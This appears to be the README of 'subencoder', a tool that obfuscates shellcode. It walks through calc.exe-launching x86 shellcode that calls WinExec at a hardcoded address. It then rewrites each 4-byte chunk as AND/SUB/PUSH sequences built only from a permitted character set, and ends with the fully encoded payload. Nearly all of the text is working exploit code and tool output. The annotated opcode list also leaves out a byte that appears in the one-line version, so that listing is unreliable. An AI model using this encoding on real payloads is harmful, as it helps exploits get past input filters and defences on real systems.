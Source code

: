 # subencoder
subencoder - shellcode obfuscater

Calc.exe Shellcode:

"\x33\xc0"               => XOR EAX,EAX | Zero out EAX register 
"\x50" 				           => PUSH EAX | Push EAX to have null-byte padding for "calc.exe" 
"\x68\x2E\x65\x78\x65"   => PUSH ".exe" 
"\x68\x63\x61\x6C\x63"   => PUSH "calc" 
"\x8B\xC4" 			         => MOV EAX,ESP | Put a pointer to the ASCII string in EAX 
"\x6A\x01" 			         => PUSH 1 | Push uCmdShow parameter to the stack 
"\x50" 				           => PUSH EAX | Push the pointer to lpCmdLine to the stack 
"\x85\x6a\xe9\x77" 	     => MOV EBX, 77e96a85 | Move the pointer to WinExec() into EBX 
"\xFF\xD3" 			         => CALL EBX | Call WinExec()

In one line:
\x33\xc0\x50\x68\x2E\x65\x78\x65\x68\x63\x61\x6C\x63\x8B\xC4\x6A\x01\x50\xBB\x85\x6a\xe9\x77\xFF\xD3

Group it int groups of 4 bytes
33c05068
2E657865
6863616C
638BC46A
0150BB85
6AE977FF
D3

Revert it and 0 pad:
D3		    -> 000000D3
6AE977FF  -> FF77E96A
0150BB85  -> 8BBB5001
638BC46A  -> 6AC48B63
6863616C  -> 6C616368
2E657865  -> 6578652E
33c05068  -> 6850C033

ShellCode 4 byte reversed in one line:
000000D3FF77E96A8BBB50016AC48B636C6163686578652E6850C033

Allowed Char File (2-digit hex):
02030405060708090b0c0e0f101112131415161718191a1b1c1d1e1f202122232425262728292a2b2c2d2e303132333435363738393b3c3d3e4142434445464748494a4b4c4d4e4f505152535455565758595a5b5c5d5e5f606162636465666768696a6b6c6d6e6f707172737475767778797a7b7c7d7e7f

Generate shellcode:
$ ./subencoder shellcode.txt allowedchars.txt
Address: 0x000000D3
-------------------
AND EAX,554E4D4A
AND EAX,2A313235
SUB EAX, 0x74747414
SUB EAX, 0x75757503
Result: 
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x14\x74\x74\x74\x2D\x03\x75\x75\x75\x50

Address: 0xFF77E96A
-------------------
AND EAX,554E4D4A
AND EAX,2A313235
SUB EAX, 0x04040404
SUB EAX, 0x7e280428
SUB EAX, 0x7e5c0e6a
Result: 
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x04\x04\x04\x04\x2D\x28\x04\x28\x7e\x2D\x6a\x0e\x5c\x7e\x50

Address: 0x8BBB5001
-------------------
AND EAX,554E4D4A
AND EAX,2A313235
SUB EAX, 0x48747474
SUB EAX, 0x0f740f74
SUB EAX, 0x1c5c2c17
Result: 
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x74\x74\x74\x48\x2D\x74\x0f\x74\x0f\x2D\x17\x2c\x5c\x1c\x50

Address: 0x6AC48B63
-------------------
AND EAX,554E4D4A
AND EAX,2A313235
SUB EAX, 0x3e0e3e3e
SUB EAX, 0x572d365f
Result: 
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x3e\x3e\x0e\x3e\x2D\x5f\x36\x2d\x57\x50

Address: 0x6C616368
-------------------
AND EAX,554E4D4A
AND EAX,2A313235
SUB EAX, 0x31313131
SUB EAX, 0x626d6b67
Result: 
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x31\x31\x31\x31\x2D\x67\x6b\x6d\x62\x50

Address: 0x6578652E
-------------------
AND EAX,554E4D4A
AND EAX,2A313235
SUB EAX, 0x2d2d2d79
SUB EAX, 0x6d5a6d59
Result: 
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x79\x2d\x2d\x2d\x2D\x59\x6d\x5a\x6d\x50

Address: 0x6850C033
-------------------
AND EAX,554E4D4A
AND EAX,2A313235
SUB EAX, 0x204b206f
SUB EAX, 0x77641f5e
Result: 
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x6f\x20\x4b\x20\x2D\x5e\x1f\x64\x77\x50

$ cat output.txt
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x14\x74\x74\x74\x2D\x03\x75\x75\x75\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x04\x04\x04\x04\x2D\x28\x04\x28\x7e\x2D\x6a\x0e\x5c\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x74\x74\x74\x48\x2D\x74\x0f\x74\x0f\x2D\x17\x2c\x5c\x1c\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x3e\x3e\x0e\x3e\x2D\x5f\x36\x2d\x57\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x31\x31\x31\x31\x2D\x67\x6b\x6d\x62\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x79\x2d\x2d\x2d\x2D\x59\x6d\x5a\x6d\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x6f\x20\x4b\x20\x2D\x5e\x1f\x64\x77\x50


